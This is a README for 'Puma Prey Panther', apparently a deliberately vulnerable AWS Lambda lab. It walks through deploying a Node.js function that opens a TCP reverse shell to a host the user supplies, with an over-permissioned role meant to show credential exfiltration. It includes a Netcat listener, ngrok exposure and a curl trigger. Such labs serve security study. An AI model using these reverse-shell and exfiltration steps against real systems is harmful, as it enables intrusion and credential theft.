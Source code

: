 # Puma Prey Panther

Panther is a Node.js function that can be deployed to the AWS to establish a TCP reverse shell for the purposes of introspecting the Lambda container runtime.

## Installing Prerequisites

* [AWS Command Line Interface](https://aws.amazon.com/cli/)
* [Node.js / NPM](https://nodejs.org/en/download/)

## Deploying The Function and Resources

```bash
cd /PATH/TO/panther
aws configure
npm install

# AWS profile to use
export AWS_PROFILE=default

# Optional: Run the Lambda in a VPC.
export IN_VPC=true

# Optional: Create protected S3 bucket that the Lambda execution role has access to.
export WITH_BUCKET=true
export BUCKET_SUFFIX=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.

npx serverless deploy
```

Record the API key provided in the output:

```bash
Serverless: Stack update finished...
Service Information
service: panther
stage: dev
region: us-east-1
stack: panther-dev
resources: 14
api keys:
  panther: YOUR_API_KEY
```

In addition to deploying the function, this will create a private S3 Bucket with an image. The Lambda role will have unnecessary permissions to access these resources as well as to an AWS Parameter Store path to demonstrate the damage that can be done by exfiltrating credentials from the runtime environment.

To store a secret in the aforementioned Parameter Store path, run the following:

```bash
aws ssm put-parameter --name /panther/database/user --value "panther_user" --type SecureString
aws ssm put-parameter --name /panther/database/password --value "RG9ncyBhcmUgb3VyIGxpbmsgdG8gcGFyYWRpc2UuIFRoZXkgZG9uJ3Qga25vdyBldmlsIG9yIGplYWxvdXN5IG9yIGRpc2NvbnRlbnQu" --type SecureString
```

## Testing in AWS

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/panther --url-id YOUR_API_GATEWAY_ID --api-key YOUR_API_KEY
```

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Invoke your function, supplying your connection details and API key:

```bash
curl "https://YOUR_API_GATEWAY_ID.execute-api.$AWS_REGION.amazonaws.com/dev/api/Panther?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER" -H 'X-API-Key: YOUR_API_KEY'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file, though it cannot be extended past 30 seconds as it is attached to an API Gateway.

## Teardown

```bash
npx serverless remove
```

## Running Locally

```bash
npm start
```

## Testing Locally

```bash
curl 'http://localhost:3000/api/Panther?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'x-api-key: offlineKey'
```

## Linting

```bash
go get -u golang.org/x/lint/golint
npm run lint
```

## Serverless AWS NodeJS Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template aws-nodejs --path panther
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/aws/) for more information.
